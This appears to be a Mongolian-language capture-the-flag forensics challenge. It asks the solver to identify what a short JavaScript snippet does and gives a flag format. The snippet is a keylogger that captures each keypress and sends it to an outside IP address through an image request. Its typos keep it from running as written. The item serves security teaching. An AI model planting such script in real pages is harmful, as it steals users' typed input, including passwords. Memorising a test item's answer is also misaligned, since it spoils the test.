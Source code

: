 ## Baby Forensic (10pts)

Доор кодыг шинжилгээ хийн ямар үйлдэл хийж байгааг тодорхойл.

```javascript
<script LANGUAGE="JavaScript">
document.captureEvents(Event.KEYPRESS);
document.onkeypress = captureKeystrokes;
function captureKeystrokes(e) {
var key = string.fromcharcode(e.which);
var img = new imageO;
var src = "http://192.155.221.7/index.htm" +
"keystroke=" + escape(key);
img.src = src;
return true;}
<script>| 

```
> Флаг формат: HZU18{Таны хариулт}
